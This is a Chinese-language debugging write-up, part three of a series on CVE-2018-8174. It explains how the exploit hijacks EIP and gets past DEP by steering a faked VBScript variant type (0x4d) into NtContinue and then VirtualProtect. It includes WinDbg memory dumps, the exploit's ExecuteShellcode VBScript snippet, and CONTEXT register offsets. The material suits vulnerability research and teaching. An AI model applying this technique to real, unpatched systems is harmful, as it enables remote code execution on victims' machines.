



# [CVE-2018-8174分析之三] 使用NtContinue bypass DEP
调试分析Leak基址后如何控制EIP, 执行shellcode
1. 执行shellcode前，有几个关键地址，我们先记下来
```
shellcode address:  054e002c     
spec_int_1  002a68b4  

Addr_wrap_sh_with_ntcontinue
0:005> dd 050d1000  
050d1000  054e002c 054e002c 00003000 00000040
050d1010  054e0024 42424242 42424242 42424242
050d1020  68000000 6877a055 6877a055 6877a055
050d1030  0077a055 41414141 41414141 41414141
050d1040  41414141 41414141 41414141 41414141
050d1050  41414141 41414141 41414141 41414141
050d1060  41414141 41414141 41414141 41414141
050d1070  41414141 41414141 41414141 41414141

Addr_expand_with_virtualprotect
0:005> dd 002e2f64 
002e2f64  050d1023 00410041 00410041 00410041
002e2f74  00410041 00410041 00410041 00410041
002e2f84  00410041 00410041 00410041 00410041
002e2f94  00410041 00410041 00410041 00410041
002e2fa4  00410041 00410041 00410041 00410041
002e2fb4  00410041 00410041 00410041 00410041
002e2fc4  00410041 00410041 00410041 00410041
002e2fd4  00410041 00410041 00410041 00410041

```

2. 开始分析ExecuteShellcode 函数
```
Sub ExecuteShellcode
    cla4_obj1.mem(spec_int_1)=&h4d 'DEP bypass
    IsEmpty("set fake type 4d")
    
    cla4_obj1.mem(spec_int_1+8)=0  '触发shellcode
    msgbox(spec_int_1)        'VT replaced
End Sub
```

cla4_obj1.mem(spec_int_1)=&h4d，则直接改变了cla4_obj1.mem(spec_int_1+8)的类型字段




cla4_obj1.mem(spec_int_1+8)出存放的是Addr_expand_with_virtualprotect

cla4_obj1.mem(spec_int_1+8) = 0, 则会释放cla4_obj1.mem(spec_int_1+8)对象


3. 为什么fake type是0x4d? 为什么能成功call NtContinue?
```
0:005> ba e1 77a05568  -> 对NtContinue设断点
```


回到调用之前，对Var::Clear 设断点，深入分析


4. Call NtContinue的目的是？

普及一下NtContinue 函数
```

NtContinue(
  IN PCONTEXT             ThreadContext,
  IN BOOLEAN              RaiseAlert );
You can use NtContinue after processing exception for continue executing thread. 

typedef struct _CONTEXT
{
     ULONG ContextFlags;
     ULONG Dr0;
     ULONG Dr1;
     ULONG Dr2;
     ULONG Dr3;
     ULONG Dr6;
     ULONG Dr7;
     FLOATING_SAVE_AREA FloatSave; 
     ULONG SegGs;
     ULONG SegFs;
     ULONG SegEs;
     ULONG SegDs;
     ULONG Edi;
     ULONG Esi;
     ULONG Ebx;
     ULONG Edx;
     ULONG Ecx;
     ULONG Eax;
     ULONG Ebp;
     ULONG Eip;     --> EIP，偏移B8字节
     ULONG SegCs;
     ULONG EFlags;
     ULONG Esp;     --> ESP，偏移C4字节
     ULONG SegSs;
     UCHAR ExtendedRegisters[512];
} CONTEXT, *PCONTEXT;


```

简单来说，使用NtContinue可以让程序回到第一个参数指定的线程上下文中。



```
0:005> !address 054e002c
Failed to map Heaps (error 80004005)
Usage:                  <unclassified>
Allocation Base:        054e0000
Base Address:           054e0000
End Address:            05561000
Region Size:            00081000
Type:                   00020000    MEM_PRIVATE
State:                  00001000    MEM_COMMIT
Protect:                00000004    PAGE_READWRITE

0:005> !address 054e002c                   
Failed to map Heaps (error 80004005)
Usage:                  <unclassified>
Allocation Base:        054e0000
Base Address:           054e0000
End Address:            054e4000
Region Size:            00004000
Type:                   00020000    MEM_PRIVATE
State:                  00001000    MEM_COMMIT
Protect:                00000040    PAGE_EXECUTE_READWRITE
```



